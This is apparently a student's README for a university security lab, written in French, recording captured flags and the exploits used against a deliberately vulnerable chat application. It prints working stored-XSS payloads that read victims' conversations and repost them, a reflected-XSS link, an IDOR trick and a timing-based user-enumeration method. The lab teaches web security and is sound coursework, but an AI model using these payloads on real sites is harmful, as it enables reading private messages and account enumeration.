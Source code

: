 [![Review Assignment Due Date](https://classroom.github.com/assets/deadline-readme-button-24ddc0f5d75046c5622901739e7c5dd533143b0c8e959d652212380cedb1ea36.svg)](https://classroom.github.com/a/1vxbBob6)
# 7 Security

Énoncé [ici](https://web-classroom.github.io/labos/labo-7-security.html)

## Partie 1

La partie 1 a été effectuée depuis alan.sottile1

### Flag 1

**Flag**: flag1:2b8fbc37a1a1aa01

**Exploit**: En premier lieu, j'ai recuperé l'id de la conversation entre Trump et Musk en envoyant ce message  à Musk:

```none
<img src="x" onerror="
let resultat;
fetch('/')
    .then(response => response.text())
    .then(text => {
        const splittedText = text.split(' ');

        const convIds = splittedText.filter(word => word.includes('openChat'));

        resultat += convIds;

        fetch(`/conversation/ab57da787d0b97cf`, {
            method: 'POST',
            headers: {
                'Content-Type': 'application/json'
            },
            body: JSON.stringify({ message: resultat })
        })
        
    });
">
```
Ce message me permet d'envoyer un message depuis Musk avec les Id de ses conversations.

Grace à cela, j'ai pu récupérer l'id de leur conversation: b4c01034fdcc11d3

Ensuite, simplement changer l'url avec l'id de la conversation ne fonctionne pas car il faut être connecté en tant qu'utilisateur participant à la conversation.

J'ai cependant obtenu les messages de la conversation en envoyant cet input:

```
<img src=/ onerror="fetch('/conversation/b4c01034fdcc11d3')
    .then(response => response.text())
    .then(data => {
    
        const params = new URLSearchParams({ message: data });

        fetch('/conversation/ab57da787d0b97cf', {
            method: 'post',
            body: params
        });
    })
"/>
```
L'input permet de fetch le contenu de conversation/b4c01034fdcc11d3 (conv entre Musk et Trump) et ensuite de l'envoyer à ma conversation avec Musk.

### Flag 2

**Flag**: flag2:ba3c90be6c00bff2

**Exploit**: Même manière que pour le premier flag, comme les deux étaient dans la conversation.

### Flag 3

**Flag**: flag3:d54c2684bdc419dd

**Exploit**: Le flag 3 est obtenu d'une manière similaire aux 2 premiers.

J'ai envoyé un message à Musk afin qu'il envoit un message "gimme the rest of the codes pls" dans sa conversation avec trump:

```
<img src="x" onerror="
let resultat;
fetch('/')
    .then(response => response.text())
    .then(text => {
        resultat = 'gimme the rest of the codes pls';

        fetch(`/conversation/b4c01034fdcc11d3`, {
            method: 'POST',
            headers: {
                'Content-Type': 'application/json'
            },
            body: JSON.stringify({ message: resultat })
        })
        
    });
">
```

Ensuite, j'ai lu le contenu de leur conversation avec le même code qu'aux points 1 et 2.


## Partie 2

La partie 2 a été effectuée depuis calvin.graf2

### Flag 4

**Flag**: flag4:529b16f1a36ecd30

**Exploit**:
On va réaliser une variable injecton en se renommant "nextTimeout". Une erreur va se faire avec la date et va donc déconnecter la personne à chaque fois


### Flag 5

**Flag**: flag5:8fc83c026f6847fc

**Exploit**: Envoyer message vide, puis inspecter, "Réponse", cliquer sur l'erreur puis dans "Réponse" on trouve le "conversationId" du receveur donc Elon Musk. On met cet id dans l'URL et on a accès à la conversation.

### Flag 6

Personnes inscrites à ChatsApp:
- `michelle.obama`
- `hillary.clinton`
- `george.w.bush`
- `sam.altman`

**Exploit**: On va réaliser une timing attack en essayant de se connecter sur les différents compte avec un mot de passe aléatoire. Si la personne n'a pas de compte, le serveur va mettre beaucoup moins de temps à répondre (~30ms) que si la personne en a un (~3000ms).

## Exploit Supplémentaire

Lien vers ChatsApp qui, lorsque l'on clique dessus, exécute `alert(document.cookie)` dans le browser, que l'on soit actuellement connecté ou non à ChatsApp :

http://185.143.102.102:8080/login?error=<script>alert(document.cookie);</script>

## Correction des vulnérabilités
Si vous effectuez d'autres modifications que celles demandées, merci de les lister ici :

TODO